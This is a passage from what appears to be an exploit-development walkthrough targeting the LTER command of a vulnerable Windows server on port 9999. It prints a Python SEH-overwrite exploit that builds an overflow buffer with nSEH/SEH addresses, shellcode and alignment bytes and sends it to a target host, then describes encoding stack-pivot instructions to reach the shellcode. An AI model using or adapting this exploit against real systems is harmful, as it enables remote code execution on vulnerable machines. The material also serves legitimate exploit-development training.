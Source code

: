 ```term
nseh = struct.pack("<I", 0x06710870)
seh = struct.pack("<I", 0x6250195E)

buffer = "LTER /.:/" + "A" * 3 + buf + "A" * (3515  - 3 - len(buf)) + nseh + seh + "A" * 2 + alignment + "A" * 200

host = sys.argv[1]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

##### ESI is now pointing into the shellcode!

![](/assets/img/LTER/14.png)

##### As we may see on the following image, we still have some space to insert our SUB/ADD encoded PUSH EBX, POP ESP, PUSH ESI, RET.
